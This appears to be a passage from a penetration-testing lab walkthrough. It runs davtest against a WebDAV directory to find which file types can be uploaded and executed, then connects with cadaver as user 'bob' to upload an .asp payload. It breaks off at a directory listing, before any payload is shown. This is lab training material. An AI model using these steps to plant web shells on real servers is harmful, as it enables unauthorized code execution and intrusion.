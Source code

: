 ```bash
 Checking for test file execution
EXEC	pl	FAIL
EXEC	jsp	FAIL
EXEC	jhtml	FAIL
EXEC	php	FAIL
EXEC	html	SUCCEED:	http://10.0.27.191/webdav/DavTestDir_qoKbVVGT8BuAu/davtest_qoKbVVGT8BuAu.html
EXEC	asp	SUCCEED:	http://10.0.27.191/webdav/DavTestDir_qoKbVVGT8BuAu/davtest_qoKbVVGT8BuAu.asp
EXEC	shtml	FAIL
EXEC	aspx	FAIL
EXEC	cfm	FAIL
EXEC	cgi	FAIL
EXEC	txt	SUCCEED:	http://10.0.27.191/webdav/DavTestDir_qoKbVVGT8BuAu/davtest_qoKbVVGT8BuAu.txt

********************************************************
/usr/bin/davtest Summary:
Created: http://10.0.27.191/webdav/DavTestDir_qoKbVVGT8BuAu
PUT File: http://10.0.27.191/webdav/DavTestDir_qoKbVVGT8BuAu/davtest_qoKbVVGT8BuAu.pl
PUT File: http://10.0.27.191/webdav/DavTestDir_qoKbVVGT8BuAu/davtest_qoKbVVGT8BuAu.jsp
PUT File: http://10.0.27.191/webdav/DavTestDir_qoKbVVGT8BuAu/davtest_qoKbVVGT8BuAu.jhtml
PUT File: http://10.0.27.191/webdav/DavTestDir_qoKbVVGT8BuAu/davtest_qoKbVVGT8BuAu.php
PUT File: http://10.0.27.191/webdav/DavTestDir_qoKbVVGT8BuAu/davtest_qoKbVVGT8BuAu.html
PUT File: http://10.0.27.191/webdav/DavTestDir_qoKbVVGT8BuAu/davtest_qoKbVVGT8BuAu.asp
PUT File: http://10.0.27.191/webdav/DavTestDir_qoKbVVGT8BuAu/davtest_qoKbVVGT8BuAu.shtml
PUT File: http://10.0.27.191/webdav/DavTestDir_qoKbVVGT8BuAu/davtest_qoKbVVGT8BuAu.aspx
PUT File: http://10.0.27.191/webdav/DavTestDir_qoKbVVGT8BuAu/davtest_qoKbVVGT8BuAu.cfm
PUT File: http://10.0.27.191/webdav/DavTestDir_qoKbVVGT8BuAu/davtest_qoKbVVGT8BuAu.cgi
PUT File: http://10.0.27.191/webdav/DavTestDir_qoKbVVGT8BuAu/davtest_qoKbVVGT8BuAu.txt
Executes: http://10.0.27.191/webdav/DavTestDir_qoKbVVGT8BuAu/davtest_qoKbVVGT8BuAu.html
Executes: http://10.0.27.191/webdav/DavTestDir_qoKbVVGT8BuAu/davtest_qoKbVVGT8BuAu.asp
Executes: http://10.0.27.191/webdav/DavTestDir_qoKbVVGT8BuAu/davtest_qoKbVVGT8BuAu.txt
```

> 📌 Summary:
>
> * All important file types can be uploaded to the `/webdav` directory
> * `.txt`, `.asp`, `.html` files can be executed

### cadaver

* Use `cadaver` to upload an `.asp` payload to the `/webdav` directory

> cadaver allow to access the contents of the actual `/webdav` directory  which enable users to `download`, `upload`, and `edit` files.

```bash
cadaver http://10.0.27.191/webdav
```

```bash
Authentication required for 10.0.27.191 on server `10.0.27.191':
Username: bob
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
Coll:   DavTestDir_qoKbVVGT8BuAu               0  Jun 29 16:16
        AttackDefense.txt                     13  Jan  2  2021
        web.config                           168  Jan  2  2021
```
